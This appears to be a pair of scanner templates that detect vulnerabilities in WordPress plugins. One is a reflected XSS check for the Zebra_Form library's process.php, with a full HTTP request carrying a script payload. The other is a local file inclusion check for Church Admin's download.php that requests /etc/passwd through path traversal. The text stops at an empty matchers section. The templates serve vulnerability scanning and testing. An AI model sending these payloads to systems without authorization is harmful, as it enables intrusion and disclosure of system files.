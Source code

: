 # Zebra_Form PHP Library \<= 2.9.8 - Cross-Site Scripting
## Description
- Zebra_Form PHP library 2.9.8 and prior (which is used by some WordPress plugins) is affected by reflected cross-site scripting vulnerabilities via process.php.

- severity - medium
- tags - wordpress,xss,wp,wpscan
## Requests
### Step - 1
```
POST /wp-content/plugins/wp-ticket/assets/ext/zebraform/process.php?form=%3C/script%3E%3Cimg%20src%20onerror=alert(document.domain)%3E&control=upload HTTP/1.1
Host: {{Hostname}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Content-Type: multipart/form-data; boundary=---------------------------77916619616724262872902741074
Origin: null

-----------------------------77916619616724262872902741074
Content-Disposition: form-data; name="upload"; filename="{{randstr}}.txt"
Content-Type: text/plain
Test
-----------------------------77916619616724262872902741074--

```
### Matchers

**Type - word**
- part - body
- words
    1. \</script>\<img src onerror=alert(document.domain)>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Church Admin 0.33.2.1 - Local File Inclusion
## Description
- WordPress Church Admin 0.33.2.1 is vulnerable to local file inclusion via the "key" parameter of plugins/church-admin/display/download.php.
- severity - high
- tags - wordpress,wp-plugin,lfi,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/church-admin/display/download.php?key=../../../../../../../etc/passwd
### Matchers
